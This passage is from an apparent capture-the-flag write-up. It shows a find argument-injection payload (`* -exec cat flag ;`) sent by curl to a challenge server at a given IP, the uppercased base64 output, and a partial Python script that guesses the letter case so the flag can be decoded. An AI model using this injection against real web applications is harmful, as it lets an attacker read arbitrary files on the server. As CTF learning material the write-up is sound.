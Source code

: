 Basically, passing `*%20-exec%20cat%20flag%20;` (urldecoded: `* -exec cat flag ;`) to `arg` will output the flag a few times:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/the-code$ curl "http://35.242.239.180:30233/?start=1&arg=*%20-exec%20cat%20flag%20;"
Y3RME2FHZJE1Y2FJZMJHNJE1ZDUXMZCYMZG2OTA5YZQ3NZFMMDGZNJI4NGFKMWE1MZLIY2VMNDKYMDFJNJYWNJMXZWR9Y3RME2FHZJE1Y2FJZMJHNJE1ZDUXMZCYMZG2OTA5YZQ3NZFMMDGZNJI4NGFKMWE1MZLIY2VMNDKYMDFJNJYWNJMXZWR9
{% endhighlight %}

The problem, however, was that the output is encoded to base64 and then passed to `strtoupper`. I made the following script that attempts to decode the uppercase base64 string:

{% highlight python %}
import base64
import sys
import string

def lower(enc_st, i):
	return enc_st[:i] + enc_st[i].lower() + enc_st[i + 1:]

def score(s, posmax):
	score = 0
	alphabet = string.printable[:-2].encode()
	dec = base64.b64decode(s)
	if dec[0] not in alphabet:
		return -1
	while score < (posmax * 6 // 8 + 6) and dec[score] in alphabet:
		score += 1
	return  score - 1


def tryToLower(enc_st, pos):
	encs = []
	scores = []
	for i in range(256):
		enc = enc_st
		b = bin(i)[2:]
		if len(b) < 8:
			b = "0" * (8 - len(b)) + b
		for offset, shouldLower in enumerate(b):
			if shouldLower == "1":
				enc = lower(enc, pos + offset)
		encs.append(enc)
		scores.append(score(enc, pos))
	max = -1
	posmax = -1
	for i, s in enumerate(scores):
		if s > max:
			max = s
			posmax = i
	arr = []
	verif = []
	for i, s in enumerate(scores):
		if s == max and encs[i] not in verif:
			verif.append(encs[i])
			arr.append(i)
	if len(arr) == 1:
		return encs[posmax]
	else:
		print("CHOICE TIME")
		for i in arr:
			print(str(i).encode() + b'. ' + base64.b64decode(encs[i]))
		x = input()
		return encs[int(x)]


enc = sys.argv[1]